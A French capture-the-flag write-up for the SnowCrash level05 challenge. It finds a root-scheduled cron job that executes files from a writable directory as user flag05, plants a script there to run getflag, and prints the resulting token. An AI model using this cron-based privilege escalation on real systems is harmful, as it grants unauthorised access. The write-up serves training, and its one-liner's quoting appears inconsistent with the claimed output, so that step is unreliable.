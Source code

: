 
# **Level 05**

Pour ce level05, nous n'avons rien dans le dossier courant donc nous cherchons dans la machine si il y a quelque chose se rapportant au niveau 5

```
level05@SnowCrash:~$ find / -name level05 2> /dev/null 
/var/mail/level05
/rofs/var/mail/level05
```

Dans `/var/mail/level05` nous pouvons voir une entree de `crontab` qui semble `executer` un script toutes les 2 minutes avec les droits de `flag05`

```
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le script `/usr/sbin/openarenaserver` semble `executer` tous les fichiers present dans le dossier `/opt/openarenaserver` puis les supprimer

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Donc nous mettons un script dans `/opt/openarenaserver` qui execute `getflag` et le print dans un fichier

```
level05@SnowCrash:/opt/openarenaserver$ echo "echo "$(getflag)" > /var/crash/flag" > exec.sh && chmod 777 exec.sh
```
> Il faut que le programme creer lui meme le fichier de sortie



Puis lorsque le cron s'execute

> */2 * * * * signifie au'il se lance toutes les 2 minutes

```
level05@SnowCrash:/opt/openarenaserver$ cat /var/crash/flag 
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

> ### NEXT : [Level 06](/level06/resources/README.md)
